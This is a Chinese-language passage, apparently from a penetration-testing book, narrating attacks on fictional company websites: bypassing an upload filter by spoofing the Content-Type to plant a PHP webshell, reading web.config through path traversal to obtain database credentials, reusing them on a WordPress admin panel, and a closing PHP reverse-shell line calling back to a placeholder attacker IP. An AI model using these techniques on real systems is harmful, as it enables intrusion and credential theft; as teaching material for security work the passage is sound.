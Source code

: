 ```

因此，我们的目标是诱使网站认为它收到了一个PDF文件，而实际上它是一个脏的PHP代码，在服务器上执行系统命令。如果我们在使用Burp或Zap上载文档时拦截发送的HTTP请求，我们可以看到浏览器发送文件类型“application/octet stream”及其内容:
![](./Chap2/22.zhuabao.png)

让我们将“Content Type”头更改为“application/pdf”，然后将请求转发到服务器。注意，我们没有更改文件的.php扩展名。
![](./Chap2/23.uploadok.png)
太棒了！我们的文件通过了安全检查，证明网站仅依赖于内容类型头。因此，我们的代码位于服务器的某个位置。它是一个简单的脚本，可以执行通过'cmd'参数接收到的任何命令，但是要执行它，我们需要确定它的确切位置并通过浏览器访问它。

有时这部分可能会非常棘手，而其他时候网站是很好地拼出完整的网址，只要我们花时间仔细看看。例如，在本例中，文件的URL隐藏在祝贺页面的源代码中（在Firefox/Chrome上按Ctrl+u）:
![](./Chap2/24.viewsource.png)

一旦我们访问了PHP脚本，我们就可以执行任意的系统命令，并最终获得与前一章一样的反向shell:
![](./Chap2/25.accessphpwebshell.png)

互联网上有许多可用的“webshell脚本”，它们提供了许多功能：良好的图形界面、数据库支持、文件浏览器等。然而，其中许多脚本可能带有隐藏的后门，为其他黑客提供了免费搭便车的机会。所以当心外面所有的C99或R57脚本。请保持webshell的简洁易用。

#### 3)	info.sph-assets.com
这个网站似乎提供了一些关于公司历史的基本信息和一些吸引投资者的财务数字。通过与Burp Proxy的链接，我们注意到一个有趣的请求，它获取一个PDF报告:
![](./Chap2/26.pdf.png)


我们可以推断文件的位置是在“open”函数中用来读取报告，然后将其内容显示给用户的。作为一个热心的黑客，我们的第一个反应是诱使网站打开系统上的其他文件。但哪些呢？它们在磁盘上的什么位置？

我们一步一步来，好吗？首先，找出我们正在处理的是哪种操作系统。简单地看一下HTML源代码就知道我们正在与Windows服务器对话：AXD和ASPX文件是Microsoft IIS web服务器的典型信号:
![](./Chap2/27.osfingerprint.png)

当然，还有网站的HTTP头，这使得它更加明显:
![](./Chap2/28.fingerprint2.png)

IIS的配置存储在“web.config”文件中，通常是主网页上方的一个或两个目录。那么让我们请求那个文件:

```www.sph-assets.com/get_static.php? image=../../web.config```
![](./Chap2/29.webconfig.png)

如您所见，我们获得了网站使用的数据库帐户，这是很方便的，但由于数据库位于内部网络上——DB0998并不完全是公共服务器名称——它对我们几乎没有用处……或者不是？


每个黑客/渗透测试人员都应该熟悉一条金科玉律，现在是我们引入它的时候了：管理员——嗯，人类真的——喜欢重用密码。在这本书中，我们将有机会见证几次。因此，当获取密码时，第一个反射就是在我们遇到的每个登录表单上尝试相同的字符串。

碰巧，这个网站是用WordPressCMS建立的。我们可以通过再次检查网站的源代码来推断这一点 :
![](./Chap2/30.wordpress.png)

内容管理服务（CMS）是一种用于加快网站开发速度的工具。以WordPress为例：你下载并安装它，它将帮助你通过简单易用的界面创建网站内容。不需要掌握HTML、PHP和CSS就可以拥有一个功能强大、响应迅速的网站。

显然，管理CMS需要一个管理面板；对于WordPress，可以通过```info.sph-assets.com/wp-admin```访问这个面板:
![](./Chap2/31.wordpresslogin.png)

让我们试试之前的帐户:
![](./Chap2/32.loginwordpress.png)

好哇！我们能把我们的shellcode放进去吗？好吧，在WordPress上我们不能直接上传PHP文件，甚至不能从头开始创建。我们首先需要安装一个名为“insert_php”的插件，或者编辑主题文件（“functions.php”）来插入我们的php代码片段，这些代码片段将调用反向shell。

添加到“functions.PHP”的PHP代码可以如下所示:
```
$sock=fsockopen("FrontGun_IP",443);exec("/bin/sh <&3 >&3 2>&3");
```
```